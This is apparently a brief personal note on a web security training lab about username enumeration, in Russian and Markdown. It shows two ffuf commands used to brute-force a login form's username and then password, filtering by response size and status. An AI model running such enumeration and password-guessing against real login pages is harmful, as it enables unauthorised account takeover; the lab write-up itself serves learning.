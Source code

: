 # Authentication attacks

## 1. Lab: Username enumeration via different responses

бурпом угнал запрос, потом ffuf сначала подобрал юзернейм, потом пароль

```
ffuf -request req.txt -request-proto https -w users.txt -fs 3140
ffuf -request req.txt -request-proto https -w pass.txt -fc 200
```
